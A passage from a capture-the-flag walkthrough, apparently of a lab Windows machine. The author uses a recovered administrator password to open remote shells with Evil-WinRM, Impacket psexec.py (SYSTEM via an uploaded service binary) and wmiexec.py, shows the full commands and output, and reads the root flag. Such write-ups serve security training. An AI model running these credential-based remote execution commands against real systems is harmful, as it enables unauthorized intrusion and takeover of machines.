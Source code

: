 The `(Pwn3d!)` shows this is an admin account, so I should be able to
get a shell.

I can use [Evil-WinRM](https://github.com/Hackplayers/evil-winrm):



    root@kali# evil-winrm -u administrator -p '!R3m0te!' -i 10.10.10.180

    Evil-WinRM shell v2.3

    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\Administrator\desktop> whoami
    remote\administrator



I could also use `psexec.py`:



    root@kali# psexec.py 'administrator:!R3m0te!@10.10.10.180'
    Impacket v0.9.21.dev1+20200313.160519.0056b61c - Copyright 2020 SecureAuth Corporation

    [*] Requesting shares on 10.10.10.180.....
    [*] Found writable share ADMIN$
    [*] Uploading file ErcBEqYW.exe
    [*] Opening SVCManager on 10.10.10.180.....
    [*] Creating service amHC on 10.10.10.180.....
    [*] Starting service amHC.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 10.0.17763.107]
    (c) 2018 Microsoft Corporation. All rights reserved.

    C:\Windows\system32>whoami
    nt authority\system



Or `wmiexec.py`:



    root@kali# wmiexec.py 'administrator:!R3m0te!@10.10.10.180'
    Impacket v0.9.21.dev1+20200313.160519.0056b61c - Copyright 2020 SecureAuth Corporation

    [*] SMBv3.0 dialect used
    [!] Launching semi-interactive shell - Careful what you execute
    [!] Press help for extra shell commands
    C:\>whoami
    remote\administrator



From any of these, I can grab the flag:



    *Evil-WinRM* PS C:\Users\Administrator\desktop> type root.txt
    e2aeb068************************







